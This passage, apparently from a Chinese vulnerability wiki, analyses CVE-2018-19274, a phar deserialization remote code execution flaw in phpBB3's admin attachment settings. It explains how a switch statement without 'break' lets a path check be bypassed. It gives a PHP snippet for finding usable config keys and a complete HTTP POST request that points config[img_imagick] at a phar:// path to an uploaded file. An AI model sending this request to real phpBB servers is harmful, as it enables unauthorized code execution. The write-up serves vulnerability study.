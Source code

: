 但是在进入路径判断前有一个三元运算

    $path = in_array($config_definition['validate'], array('wpath', 'path', 'rpath', 'rwpath')) ? $phpbb_root_path . $cfg_array[$config_name] : $cfg_array[$config_name];

经过判断`$config_definition['validate']`在数组之中，所以会走第一个分支，`$cfg_array[$config_name]`就是post数组变量，此处可控，但是会和`$phpbb_root_path`进行拼接。文件位置：`phpBB3/adm/index.php`

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId31.png)

因此拼接后的`$path`会变成`./../xxxxxxxxxx`，路径出错无法利用，如下。

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId32.png)

但是这里的整个`switch`语句犯了一个较为低级的错误，部分条件的语句段没有使用`break`进行结束。

`switch`执行方式：开始时没有代码被执行。仅当一个 `case`语句中的值和
`switch`表达式的值匹配时 PHP
才开始执行语句，直到`switch`的程序段结束或者遇到第一个`break`
语句为止。如果不在`case`的语句段最后写上`break`的话，PHP
将继续执行下一个`case`中的语句段。

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId33.png)

因此需要在`$config_vars`找到一个元素`$config_definition`，并且`$config_definition['validate']`等于`absolute_path`或者`absolute_path_writable`或者`path`，这样就能即进入`wpath`执行也不增加`$path`的前缀

使用如下代码过滤：

    foreach ($display_vars['vars'] as $key =>$value){
        if (($value['validate'] === 'absolute_path') or ($value['validate'] === 'absolute_path_writable') or ($value['validate'] === 'path')){
            print('66'.$key.'77');
        }
    }

发现`img_imagick`元素满足条件：

![9.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId34.png)

进入控制面板的附件设定，提交并该修改数据包

![10.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId35.png)

数据包如下，关键点为`config[img_imagick]`参数：

    POST /phpBB3/adm/index.php?i=acp_attachments&mode=attach&sid=385d5172c29a3a9530d6b467a5691ffd HTTP/1.1
    Host: www.0-sec.org
    User-Agent: python-requests/2.21.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 967

    config%5Ballow_attachments%5D=1&config%5Ballow_pm_attach%5D=0&config%5Bupload_path%5D=files&config%5Bdisplay_order%5D=0&config%5Battachment_quota%5D=50&attachment_quota=mb&config%5Bmax_filesize%5D=256&max_filesize=kb&config%5Bmax_filesize_pm%5D=256&max_filesize_pm=kb&config%5Bmax_attachments%5D=3&config%5Bmax_attachments_pm%5D=1&config%5Bsecure_downloads%5D=0&config%5Bsecure_allow_deny%5D=1&config%5Bsecure_allow_empty_referer%5D=1&config%5Bcheck_attachment_content%5D=1&config%5Bimg_display_inlined%5D=1&config%5Bimg_create_thumbnail%5D=0&config%5Bimg_max_thumb_width%5D=400&config%5Bimg_min_thumb_filesize%5D=12000&config%5Bimg_imagick%5D=phar://../files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip.part/&config%5Bimg_max_width%5D=0&config%5Bimg_max_height%5D=0&config%5Bimg_link_width%5D=0&config%5Bimg_link_height%5D=0&submit=Submit&ips=&ipexclude=0&creation_time=1552465991&form_token=0910a5dc9a13fc50a0ead4656617642fa80daaf1
